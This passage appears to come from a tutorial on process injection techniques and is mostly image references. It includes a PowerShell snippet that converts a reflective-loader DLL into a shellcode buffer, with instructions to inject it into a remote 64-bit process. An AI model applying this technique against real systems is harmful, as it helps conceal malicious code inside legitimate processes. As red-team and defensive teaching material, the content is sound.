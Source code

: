 ![](./images/Review%20of%20Process%20Injection%20Techniques/image044.png)<br><br>


Compile with `gcc` or `cl` and test with `rundll32`

![](./images/Review%20of%20Process%20Injection%20Techniques/image045.png)<br><br>

We can convert this to shellcode and inject into a remote process too:

```powershell
$bytes = ConvertTo-Shellcode -File C:\Users\Public\rdi.dll
$hex = $bytes | %{"{0:X2}" -f $_} | %{"0x" + $_}
for ($i=0; $i -lt $hex.length; $i+=24){$j=$i+23;[array]$z+="$($hex[$i..$j] -join ', '), "}
$z | Set-Clipboard
```

<br>

After you replace the shellcode, don't forget to remove the last comma in the buffer.  Also, this time you must pick a 64-bit process to inject into since `rdi.dll` is a 64-bit DLL:

![](./images/Review%20of%20Process%20Injection%20Techniques/image046.png)<br><br>
